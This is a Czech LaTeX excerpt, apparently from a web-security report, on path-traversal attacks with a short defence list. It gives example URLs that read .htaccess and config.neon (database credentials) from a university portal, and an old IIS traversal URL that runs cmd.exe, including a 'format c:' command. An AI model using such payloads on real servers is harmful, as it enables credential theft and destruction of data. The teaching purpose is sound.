 \documentclass[12pt, a4paper]{report}
\begin{document}
\begin{lstlisting}[label=man_url_get_htaccess,caption=Manipulace s URL - získání .htaccess]
http://portal.czu.cz/index.php?item=../.htaccess
\end{lstlisting}

\begin{lstlisting}[label=man_url_get_neon,caption=Manipulace s URL - získání config.neon]
http://portal.czu.cz/index.php?item=../config/config.neon
\end{lstlisting}

V prvním příkladě jsme se snažili získat soubor , který může obsahovat autentizační metody, nastavení práv apod. Ve druhém příkladě jsme se pokoušeli získat soubor . Tento soubor slouží pro uchování citlivých informací na webech, které využívají Nette Framework. Příkladem takových informací může být přihlášení k databázi.

\subsection{IIS Web Server}
Starší verze IIS\footnote{Internet Information Service - Microsoftem distribuovaná obdoba webového serveru Apache2} umožňovaly dokonce i vykonávat příkazy na serveru.

\begin{lstlisting}[label=iis_derave,caption=Ukázka URL pro \uv{děravé} IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+dir+c:\
\end{lstlisting}

Tento příkaz spustil  (příkazová řádka systému Windows) a\\ v něm příkaz . Nic nám tedy nebrání přidávat uživatele do systému, nebo formátovat pevné disky, jak lze vidět zde:

\begin{lstlisting}[label=iis_derave_format,caption=Formátování disku C: přes chybu v IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+format+c:\
\end{lstlisting}

\subsection{Obrana}
\begin{itemize}
\item Mít správně nastavená oprávnění a cesty jednotlivých webových serverů (virtuálních hostů).
\item Kontrolovat, co vlastně do stránky vkládáme.
\item Úplně se vyhnout vkládání dat do stránky (například v PHP můžeme použít \textit{spl$\_$autoload$\_$register}, který nám automaticky podle zadané funkce načítá třídy ze souborového systému).
\end{itemize}
\end{document}
